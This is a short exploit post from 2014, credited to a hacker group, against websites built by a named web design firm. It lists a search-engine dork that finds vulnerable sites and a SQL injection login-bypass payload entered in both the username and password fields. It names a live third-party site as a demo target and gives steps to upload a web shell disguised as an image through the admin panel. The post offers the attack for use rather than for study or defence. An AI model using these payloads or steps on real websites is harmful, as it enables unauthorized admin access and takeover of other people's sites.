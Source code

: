 xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
«««:»»»     Web Design by ChromeMedia Inc SQL Injection Vulnerability      «««:»»»
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx

++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
+ Exploit Title        : Web Design by ChromeMedia Inc SQL Injection Vulnerability
+ Google Dork          : - intext:Web Design by ChromeMedia Inc | "Explore Your Brain !!"
+ Date                 : 16/06/2014
+ Exploit Author       : Fathur Freakz ft Barrabravaz
+ Vendor Homepage      : http://www.chromemedia.com
+ Version              : -
+ Tested on            : Windows, Linux, Mac

++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++

xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
«««:»»»          Author will be not responsible for any damage.          «««:»»»
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
x
x Issue: 
x SQL Injection Bypass Login
x 
x Risk level: High
x ~ The remote attacker has the possibility to manage the website. ~
x ~ The remote attacker is able to login into website with access level as admin. ~
x 
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx

[!]###########################################################################[!]
##
## Proof Of Concept:
## http://127.0.0.1/manage/login.php
##
## Username :  ' or 1=1 limit 1 -- -+
## Password :  ' or 1=1 limit 1 -- -+
##
## LIVE DEMO == http://www.kwdoor.com/manage/login.php
##
## How ::
## Login > Site Pages > [ Company Profile ] > Upload Photo
## Upload shell with  shell.php.jpg
##
## Cro0t ##
##
[!]###########################################################################[!]

xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
[ Thx TO ]
[+] Bang Galih
[+] Beb Hafid
[+] Yoga Harvananda
[+] Mas Nico
[+] Nindya
[+] Yogyakarta still BlackHat
[+] n y0u...
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
              [++] SurabayaBlackHat [++] Yogyakarta BlackHat [++]
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
